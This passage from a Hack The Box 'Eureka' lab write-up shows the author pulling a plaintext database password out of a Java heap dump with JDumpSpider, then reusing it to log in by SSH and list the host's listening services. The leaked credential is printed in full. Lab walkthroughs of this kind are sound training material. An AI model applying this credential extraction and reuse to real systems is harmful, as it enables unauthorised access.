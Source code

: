 Such a big file here, let's download it to our local machine.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Eureka]
└─$ file heapdump                 
heapdump: Java HPROF dump, created Thu Aug  1 18:29:32 2024
```

# JDumpspider
We can use this tool to help us to find something interesting
`HeapDump`敏感信息提取工具
```
https://github.com/whwlsfb/JDumpSpider

┌──(wither㉿localhost)-[~/Templates/htb-labs/Eureka]
└─$ java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump
===========================================
SpringDataSourceProperties
-------------
password = 0sc@r190_S0l!dP@sswd
driverClassName = com.mysql.cj.jdbc.Driver
url = jdbc:mysql://localhost:3306/Furni_WebApp_DB
username = oscar190

===========================================
```

We can even use this credit `oscar190:0sc@r190_S0l!dP@sswd`to connect it by ssh.
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Eureka]
└─$ ssh oscar190@10.10.11.66 

oscar190@eureka:~$ id
uid=1000(oscar190) gid=1001(oscar190) groups=1001(oscar190)
oscar190@eureka:~$ whoami
oscar190
oscar190@eureka:~$ ls /home
miranda-wise  oscar190
```

Let's continue to check the other port service
```
oscar190@eureka:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8081          :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:8082          :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```